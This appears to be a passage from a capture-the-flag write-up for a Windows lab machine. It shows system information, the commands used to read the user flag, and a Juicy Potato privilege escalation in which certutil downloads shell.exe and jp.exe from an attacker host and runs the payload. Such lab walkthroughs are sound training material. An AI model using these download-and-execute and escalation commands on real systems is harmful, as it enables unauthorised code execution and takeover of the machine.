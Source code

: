 ```
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,565 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,541 MB
Virtual Memory: In Use:    554 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.152.190
                                 [02]: fe80::9428:ae5:ed84:6256
                                 [03]: dead:beef::9428:ae5:ed84:6256

```

This is how I got user flag btw:

```
PS C:\users\merlin> cd desktop
PS C:\users\merlin\desktop> dir
PS C:\users\merlin\desktop> ls -al
PS C:\users\merlin\desktop> gci -force

    Directory: C:\users\merlin\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a-hs         5/30/2018  12:22 AM        282 desktop.ini
-a-h-         5/30/2018  11:32 PM         32 user.txt

PS C:\users\merlin\desktop> type user.txt
e29ad89891462e0b09741e3082f44a2f
PS C:\users\merlin\desktop>

```

Juicypotato:

```
PS C:\users\merlin\desktop> certutil -urlcache -f http://10.10.14.51/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\users\merlin\desktop> certutil -urlcache -f http://10.10.14.51/jp.exe jp.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\users\merlin\desktop> dir

    Directory: C:\users\merlin\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         5/27/2021   6:11 PM     347648 jp.exe
-a---         5/27/2021   6:09 PM      28160 nc.exe
-a---         5/27/2021   6:11 PM       7168 shell.exe

PS C:\users\merlin\desktop> jp.exe -t * -p shell.exe -l 9999
PS C:\users\merlin\desktop> whoami
bounty\merlin
```
